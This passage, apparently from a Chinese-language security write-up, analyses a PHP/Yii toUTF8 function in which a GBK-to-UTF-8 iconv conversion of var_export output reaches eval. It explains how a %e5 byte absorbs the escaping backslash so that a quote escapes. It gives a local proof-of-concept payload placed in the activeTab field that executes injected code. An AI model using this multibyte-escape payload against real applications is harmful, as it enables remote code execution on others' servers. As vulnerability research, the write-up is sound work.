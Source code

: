 ```php
    static public function toUTF8($value, $b_force)
    {
        if (yii::$app->params["UTF8"] && !$b_force) {
            return $value;
        }

        if (modules\appdesign\models\is_array($value)) {
            if (yii::$app->params["QuickConvertCharset"]) {
                try {
                    if (!isset($value["pattern"])) {
                        $s_conv = modules\appdesign\models\iconv("GBK", "UTF-8", modules\appdesign\models\var_export($value, modules\appdesign\models\true) . ";");

                        if ($s_conv) {
                            return eval "return " . $s_conv;
                        }
                    }
                }
                catch (yii\base\Exception $e) {
                }
            }

            $arr = array();

            foreach ($value as $k => $v ) {
                $arr[self::toUTF8($k, $b_force)] = self::toUTF8($v, $b_force);
            }

            return $arr;
        }
        else {
            $s_code = modules\appdesign\models\mb_detect_encoding($value, array("ASCII", "GB2312", "GBK", "UTF-8"), modules\appdesign\models\true);

            if (modules\appdesign\models\in_array($s_code, array("CP936", "GBK", "GB2312", "EUC-CN"))) {
                return modules\appdesign\models\iconv("GBK", "UTF-8", $value);
            }
            else {
                return $value;
            }
        }
    }
```

若想达成代码执行，则需要触发之中的eval，很幸运在默认的配置下是可以走到eval的，这里用了iconv函数将GBK转为UTF8，问题也就出在这里。錦的utf-8编码是0xe98ca6，它的gbk编码是0xe55c。传入的%e5与用来转义的单引号的\\，正好组成了这个汉字，从而导致我们的单引号逃逸出来，最终到达eval的任意代码执行。这也由于var\_export是用单引号包裹字符串的。下面是本地的一个测试：

```php
<?php
$value=array("page_total"=>null,"total_nums"=>null,"curnum"=>1,
"pagelimit"=>10,"open_mode"=>"0","activeTab"=>urldecode("%e5\%27.var_dump(11111));?>"),
"show_title"=>null,"show_dots"=>null,"speed"=>null,"data"=>[],"showPages"=>0,"data_sources"=>"serv_data");
$b=var_export($value, true);
var_dump($b);
$s_conv=iconv("GBK", "UTF-8",  $b.";");
if ($s_conv) {
    var_dump($s_conv);
    eval("return " . $s_conv);
}

```
